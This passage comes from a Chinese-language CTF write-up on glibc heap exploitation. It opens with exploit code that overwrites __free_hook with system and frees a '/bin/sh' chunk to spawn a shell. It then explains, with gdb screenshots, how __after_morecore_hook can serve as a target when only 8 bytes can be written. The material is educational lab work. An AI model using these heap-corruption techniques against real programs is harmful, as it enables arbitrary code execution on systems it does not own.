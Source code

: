```
free(chunk_B)

chunk_F = malloc(0x88, 'FFFF')
chunk_G = malloc(0x88, p64(elf.sym.user))
# =======

# ====触发malloc_consolidate
free(large)

# ====sort到largebin
amend_age(0x80001)
malloc(0x80008, 'xxxx')

# ====修改free_hook
distance = libc.sym.__free_hook - 0x20 - elf.sym.user
amend_age(distance+0x99)

binsh = malloc(distance,'/bin/sh')
malloc(0x88,p64(0)+p64(libc.system))

free(binsh)

```

这时发现这个程序又加了一个修改，就是`malloc`之后只能写入 8 个字节

所以没办法覆盖`free_hook`的值，因为`free_hook`是 8 字节对齐，而不是 16 字节对齐的

这里就又介绍到一个可以修改的`hook`地址`__after_morecore_hook`

![](https://static.hack1s.fun/images/2021/12/16/image-20211216163018302.png)

`__morecore`和`__after_morecore_hook`都是会在需要 extend 堆的空间时触发

终端中执行`man malloc_hook`可以看到关于这个的介绍

> The variable `__after_morecore_hook` points at a function that is called each time after `sbrk` was asked for more memory

而 extend 堆的空间需要申请的内存大小应该是小于`mmap`的 threshold，大于 system_mem 和 top chunk 的值，在目前这个 binary 的运行环境下应该是 0x60000-0x61000 之间的值

在 gdb 中设置一个硬件断点在`__after_morecore_hook`上面

![](https://static.hack1s.fun/images/2021/12/16/image-20211216170830867.png)

之后申请一个 0x60008 大小的内容

![](https://static.hack1s.fun/images/2021/12/16/image-20211216170930255.png)

看到程序停在了这里，从源码我们可以看到调用这个 hook 的时候是没有参数的

```
(*hook)();

```
